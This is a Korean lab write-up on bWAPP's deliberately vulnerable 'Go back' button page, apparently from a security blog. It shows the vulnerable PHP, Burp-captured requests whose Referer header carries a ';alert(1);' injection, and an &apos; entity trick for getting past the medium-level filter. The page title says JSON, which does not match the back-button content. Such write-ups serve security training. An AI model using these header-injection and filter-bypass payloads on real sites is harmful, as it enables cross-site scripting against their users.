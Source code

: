 ```yaml
---
layout: single
title: (bWAPP)XSS - Reflected (JSON)
categories: bwapp
tag: [xss,reflected,stored,reflected xss, bee box,stored xss, OWASP TOP 10, OWASP, bwapp, dom xss]
toc: true
author_profile: false
---
```


## Level - Low

![그림 1-1](/assets/image/bwapp/xss/Reflected%20(Back)-archive/image.png)
- go back라는 버튼이 존재.
- 해당 버튼을 누르면 이전 사이트로 Redirect 됨

```php
<input type=button value="Go back" onClick="document.location.href='<?php echo isset($_SERVER["HTTP_REFERER"]) ? xss($_SERVER["HTTP_REFERER"]) : ""?>'">
```

- 위의 해당 시나리오에서 제공되는 소스코드를 보게되면,
- 사용자의 요청헤더 중 Referer 헤더의 내용을 가져와 isset 함수의 인자로 사용된다.

```
GET /bWAPP/portal.php HTTP/1.1
Host: 192.168.146.133
Cookie: security_level=0; PHPSESSID=2fc85d4842bc7f4f7a44f30e9a034c2f
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.146.133/bWAPP/xss_back_button.php
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

- 요청값을 버프스위트를 통해 확인해보면 Go back 버튼을 누르게 되면
- Referer 헤더의 값으로 이전 위치가 지정되어있는 걸 알 수 있다.
- 이를 통해 Referer 헤더를 변조시켜 악성 스크립트가 가능하다.

```php
<input type=button value="Go back" onClick="document.location.href='<?php echo isset($_SERVER["HTTP_REFERER"]) ? xss($_SERVER["HTTP_REFERER"]) : ""?>'">
```

- 위 부분에서 onClick 부분이 document.location.href='<?php >~~' 로 되어있다.
- 이 때 입력값을 ';alert(1);' 을 주어 스크립트를 실행시킬 수 있다.
- ';를 통해 document.location.href를 종료시키고 alert 이벤트를 호출 후 ;종료 후 '를 통해 뒷 부분에서의 오류가 발생하지 않도록 이어준다.
- 즉 \<input type=button value="Go back" onClick="document.location.href='<?php echo isset(';alert(1);') ? xss($_SERVER["HTTP_REFERER"]) : ""?>'"> 가 완성되게 된다.

```
GET /bWAPP/xss_back_button.php HTTP/1.1
Host: 192.168.146.133
Cookie: security_level=0; PHPSESSID=2fc85d4842bc7f4f7a44f30e9a034c2f
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: ';alert(1);'
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

> 이 때 요청값을 잡기 전에 새로고침을 통해 Referer 값을 현재 사이트인 xss_back_button.php 로 잡아놓아야한다.

![그림 1-2 ](/assets/image/bwapp/xss/Reflected%20(Back)-archive/image-1.png)
- 성공적으로 alert창이 띄워진 걸 볼 수 있다.

## Level - Medium & High

```php
return htmlentities($data, ENT_QUOTES);
```

- medium Level의 필터링 부분이다.
- htmlentities 함수를 사용해서 '(싱글 쿼터)를 필터링 하고 있다.
- 이 경우 HTML Entity 문자를 사용하여 우회할 수 있다.
- '(싱글 쿼터) 대신 &apos; 혹은 &#39; 을 사용하여 우회할 수 있다.

```
GET /bWAPP/xss_back_button.php HTTP/1.1
Host: 192.168.146.133
Cookie: security_level=0; PHPSESSID=2fc85d4842bc7f4f7a44f30e9a034c2f
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: &apos;;alert(1);&apos;
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

```php
return htmlspecialchars($data, ENT_QUOTES, $encoding);
```

- High Level 에서의 필터링 부분이다.
- htmlspecialchars 함수를 사용하여 메타 문자에 대해 Html Entity 값으로 변환 하여 필터링 하고 있다.
- 해당 시나리오에서는 서버측에서 HTML Entity 값을 제대로 해석하지 못하고 일반적인 HTML 문자로 변환하여 반환하므로 이전과 동일한 ';alert(1);'을 통한 스크립트 실행이 가능하다.

```
GET /bWAPP/xss_back_button.php HTTP/1.1
Host: 192.168.146.133
Cookie: security_level=0; PHPSESSID=2fc85d4842bc7f4f7a44f30e9a034c2f
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: ';alert(1);'
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```